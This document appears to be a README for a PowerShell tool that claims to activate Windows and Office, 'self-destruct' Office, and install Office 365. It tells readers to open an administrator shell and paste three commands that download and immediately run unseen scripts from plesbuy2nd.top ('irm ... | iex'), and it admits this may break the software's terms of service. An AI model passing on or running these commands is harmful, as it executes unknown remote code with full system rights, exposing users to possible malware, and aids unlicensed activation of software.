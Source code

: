 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

   2.1 **Activate Windows and existing Office**
   ```powershell
   irm https://plesbuy2nd.top/win | iex
   ```
   2.2 **Self-destruct Office (if needed)**
   ```powershell
   irm https://plesbuy2nd.top/doom | iex
   ```
   2.3 **Install and activate Office 365**
   ```powershell
   irm https://plesbuy2nd.top/office | iex
   ```
   
## Detailed Explanation
- Activate Windows and Office: The command irm https://plesbuy2nd.top/win | iex is used to activate Windows and the existing Office on your machine.
- Self-destruct Office: If you do not wish to use the existing Office or if an error occurs, use the command irm https://plesbuy2nd.top/doom | iex. After running this command, proceed with the next step.
- Install and Activate Office 365: Once the self-destruct command has been executed, run irm https://plesbuy2nd.top/office | iex to install and activate Office 365.

## Notes
- irm stands for Invoke-RestMethod, which is used to download and run scripts from the internet.
- iex stands for Invoke-Expression, which executes the downloaded script.

## Disclaimer
Use this script responsibly and ensure you understand the implications of each command. Running these commands may have significant impacts on your system, including altering system activation and Office installations.

- Ensure that you have backups of any important data before running these scripts.
- Understand that using these scripts might violate the terms of service of the software involved.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Original script sources
- Inspiration and guidance from various online communities
